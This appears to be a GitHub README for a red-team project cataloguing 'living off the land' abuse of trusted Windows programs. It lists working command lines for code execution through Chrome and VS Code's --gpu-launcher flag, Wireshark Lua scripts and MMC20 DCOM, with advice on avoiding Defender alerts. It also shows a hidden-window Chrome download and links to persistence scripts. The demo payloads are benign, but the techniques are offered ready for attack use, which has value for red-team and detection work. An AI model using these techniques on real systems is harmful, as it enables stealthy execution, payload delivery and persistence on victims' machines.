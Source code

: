 # Binary_Alchemy-LOLBINS
BinaryAlchemy is a project for collecting known and commonly found executables in action for red teamers.

# Execution
### Chrome
````

 & 'C:\Program Files\Google\Chrome\Application\chrome.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"
 & 'C:\Program Files\Google\Chrome\Application\chrome_proxy.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"

````
### VSCode
````
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c ping google.com &&"
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="calc.exe"

````

### Wireshark
````
& 'C:\Program Files\Wireshark\tshark.exe' -X lua_script:'<path of lua script>'
& 'C:\Program Files\Wireshark\wireshark.exe' -X lua_script:'<path of lua script>' (Wireshark also opens while executing)

lua file content
-- mention the binary that needs to be executed
 os.execute('C:\\Windows\\notepad.exe')
 ````
### MMC
````
**Required powershell with administrative privilege.** Avoid opening cmd.exe as it gets alerted in Defender.
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application"))
$com.Document.ActiveView.ExecuteShellCommand("C:\windows\system32\notepad.exe",$null,$null,"7")
 ````
 
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Download
### Chrome
````

& ‘C:\Program Files\Google\Chrome\Application\chrome_proxy.exe’ — profile-directory=Default — incognito — chrome-frame — user-data-dir=”C:\Temp\Temp-chrome\” — window-size=0,0 — window-position=”0000,1000" <URL>

````
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Persistence
### Windows Terminal Profile creation

````
 [Windows Terminal Profile Creator](https://github.com/Miragle-Hub/Persistence-in-Windows/blob/main/Persistence_P0C.ps1)

````
### LNK Shorcut
````
[Windows Shortcut Persistence Script](https://github.com/Miragle-Hub/Persistence-in-Windows/blob/main/Lnk%20Persistence.ps1)

````

